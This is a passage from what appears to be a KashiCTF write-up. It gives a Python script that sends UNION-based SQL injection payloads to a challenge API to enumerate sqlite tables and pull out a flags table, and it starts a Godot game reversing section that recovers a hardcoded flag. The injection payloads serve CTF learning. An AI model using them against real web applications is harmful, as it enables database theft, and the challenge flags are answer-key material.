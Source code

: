 ```python=
}
res = requests.post(url,json=data)
a = res.json()
for i in a : 
    if(i.get('status') == 'denied'):
        print(i)
```
**FLAG : KashiCTF{s4m3_old_c0rp0_l1f3_vro3nUAH}**
### Corporate Life 2 : 
```python=
import requests

url = "http://kashictf.iitbhucybersec.in:46641/api/list-v2"

data = {
#    'filter' :   "aabc'UNION SELECT 1,1,1,1,1,(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')-- " => FInd flags tables 
#    'filter' :   "aabc'UNION SELECT 1,1,1,1,1,(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='flags')-- "  => Find columns of flags tables 
    'filter' :   "aabc'UNION SELECT 1,1,1,1,1,(SELECT group_concat(secret_flag) from flags) --"  
}
res = requests.post(url,json=data)
print(res.json()[0].get('email').replace(',',''))
```
**Flag : KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_PbZ8N4Zi}**
# Reverse	

## Game 1 - Untitled Game

This challange is about godot game
![image](https://hackmd.io/_uploads/ryQKFtKc1l.png)

![image](https://hackmd.io/_uploads/HyscKFYqJl.png)

Extract this Challange.exe file by GDRETools i have:

![image](https://hackmd.io/_uploads/r1PbAYtckx.png)

In player.gd:

```
extends CharacterBody3D

const SPEED = 10.0
const JUMP_VELOCITY = 10.0

@onready var cam = $Camera3D
@onready var footstep = $footsteps
var flag = "KashiCTF{N07_1N_7H3_G4M3}"  # Get the footstep audio

var gravity = 20.0

func _ready():
	print(flag)
	Input.mouse_mode = Input.MOUSE_MODE_CAPTURED

func _unhandled_input(event):
	if event is InputEventMouseMotion:
		rotate_y(-event.relative.x * 0.005)
		cam.rotate_x(-event.relative.y * 0.005)
		cam.rotation.x = clamp(cam.rotation.x , -PI/2,PI/2)
```